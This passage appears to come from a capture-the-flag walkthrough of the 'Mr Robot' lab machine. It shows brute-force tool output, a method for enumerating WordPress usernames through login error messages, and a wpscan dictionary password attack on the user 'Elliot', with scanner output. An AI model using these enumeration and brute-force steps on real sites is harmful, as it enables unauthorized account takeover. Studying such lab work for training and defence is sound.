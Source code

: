 ```
[ATTEMPT] target 10.0.0.48 - login "mrrobot" - pass "test" - 19 of 858235 [child 8] (0/0)
[ATTEMPT] target 10.0.0.48 - login "com" - pass "test" - 20 of 858235 [child 12] (0/0)
[80][http-post-form] host: 10.0.0.48   login: styles   password: test
[80][http-post-form] host: 10.0.0.48   login: wikia   password: test
[ATTEMPT] target 10.0.0.48 - login "ago" - pass "test" - 21 of 858235 [child 3] (0/0)
[80][http-post-form] host: 10.0.0.48   login: the   password: test
[80][http-post-form] host: 10.0.0.48   login: now   password: test
[80][http-post-form] host: 10.0.0.48   login: Wikia   password: test
[80][http-post-form] host: 10.0.0.48   login: extensions   password: test
[80][http-post-form] host: 10.0.0.48   login: window   password: test
[80][http-post-form] host: 10.0.0.48   login: http   password: test
[80][http-post-form] host: 10.0.0.48   login: var   password: test
[80][http-post-form] host: 10.0.0.48   login: Robot   password: test
[80][http-post-form] host: 10.0.0.48   login: Elliot   password: test
```
  
The best thing we can do is go to the login page of our target (http://10.0.0.48/wp-login) and just type in each username with a random password. And when we get the error message;  
"ERROR: The password you entered for the username XXX is incorrect"  
Once you see that, then you know you have a registered username.  
I found the username "Elliot" by doing this technique. Now. It is time to crack the password!  
  
### Cracking WordPress Passwords  
The ultimate dream right here! Being able to crack WordPress websites with a password dictionary bruteforce. And this is actually much easier to accomplish than what you think. Let's look at how we can 
brute force the password to our target "Elliot".  
```
$ wpscan --url 10.0.0.48 --rua --passwords passwords.txt --usernames Elliot  
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database
[i] Update completed.

[+] URL: http://10.0.0.48/ [10.0.0.48]
[+] Started: Thu Dec 29 07:13:37 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.0.0.48/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.0.0.48/xmlrpc.php
```